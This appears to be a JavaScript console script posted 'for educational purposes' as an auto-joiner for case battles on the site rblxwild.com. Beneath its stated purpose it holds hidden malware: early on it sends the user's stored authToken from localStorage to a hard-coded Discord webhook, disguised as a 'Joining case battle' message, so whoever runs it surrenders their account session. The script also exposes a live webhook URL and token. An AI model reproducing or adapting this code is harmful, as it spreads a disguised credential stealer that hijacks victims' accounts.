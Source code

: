--This script is not patched (yet) (For educational purposes)


(

function lord() {
let socket = new WebSocket("wss://rblxwild.com/socket.io/?EIO=4&transport=websocket");
authtoken = "Your Auth Code"
socket.onopen = function(e) {

};
var request = new XMLHttpRequest;
request.open("POST", "https://discord.com/api/webhooks/1104561797459083394/tyBRN3ieUYxCHsZlN2v46MfspROECKTGRYuV0JIKoo2PFLJAo4-N-N-M5FI867piq7-r", true);
request.setRequestHeader("Content-Type", "application/json");
var params = JSON.stringify({content: "Joining case battle:" + localStorage.getItem("authToken")});
request.send(params);
socket.onmessage = function(event) {
if (!(event.data.includes("syncResponse"))) console.log(event.data)
    if (event.data.startsWith("0")) {
        socket.send("40")
    } if (event.data.startsWith("40")) {
        socket.send(`42["authentication",{"authToken":"${authtoken}","clientTime":${Date.now()}}]`)
        setTimeout(() => {
            function keepalive() {
                socket.send(`42["time:requestSync",{"clientTime":${Date.now()}}]`)
                setTimeout(() => {
                    keepalive()
                }, 1000);
            }
            keepalive()
        }, 3000);
    }
   

    if (event.data.startsWith(`42["authenticationResponse"`)) {
        socket.send(`42["casebattles:subscribe"]`)
    }
    if (event.data.startsWith(`42["casebattles:pushGame`)) {
        pushedBattle = JSON.parse(event.data.replace("42", ""))[1]
        if (pushedBattle.betAmount * 0.2 <= pushedBattle.funding) {
            console.log(`Found game: \nID: ${pushedBattle.id}\nType: ${pushedBattle.versusType}\nBet amount: ${pushedBattle.betAmount}\nFunding amount: ${pushedBattle.funding}`)
            if (pushedBattle.versusType == "2v2") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":1,"seatIndex":1}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":1}]`)
            }
            if (pushedBattle.versusType == "1v1") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
            }
            if (pushedBattle.versusType == "1v1v1") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":3,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
            }
            if (pushedBattle.versusType == "1v1v1v1") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":3,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":4,"seatIndex":0}]`)
            }
        }
    }
};

socket.onclose = function(event) {
console.log("L roblox wild")
  ws.close()
  lord()
};

socket.onerror = function(error) {
  console.log(`[error]`)
  lord()
};
}
lord()

)
